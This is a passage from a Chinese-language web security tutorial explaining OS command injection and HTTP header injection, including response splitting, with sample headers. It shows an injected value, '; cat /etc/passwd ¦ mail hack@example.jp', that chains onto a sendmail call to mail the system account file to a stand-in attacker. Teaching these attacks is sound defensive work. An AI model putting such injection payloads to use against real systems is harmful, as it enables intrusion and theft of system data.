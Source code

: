 ```
; cat /etc/passwd ¦ mail hack@example.jp
```

程序接收该值，构成以下的命令组合：

```
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```

攻击者的输入值中含有分号（ ;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见， sendmail 命令执行被分隔后， 接下去就会执行 cat /etc/passwd | mail hack@example.jp 这样的命令了。结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。  

## HTTP 首部注入攻击  

HTTP 首部注入攻击（ HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行， 添加任意响应首部或主体的一种攻击。属于被动攻击模式。  

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（ HTTP Response Splitting Attack）。  

如下所示， Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie ：

```
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

* 12345就是插入值
```

HTTP 首部注入攻击有可能会造成以下一些影响：

- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）  

### HTTP首部注入攻击案例  

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个类别ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的 Location 首部字段内，形如 Location: http://example.com/?cat=101。令浏览器发生重定向跳转：

![](./img/http_header_injection.png)
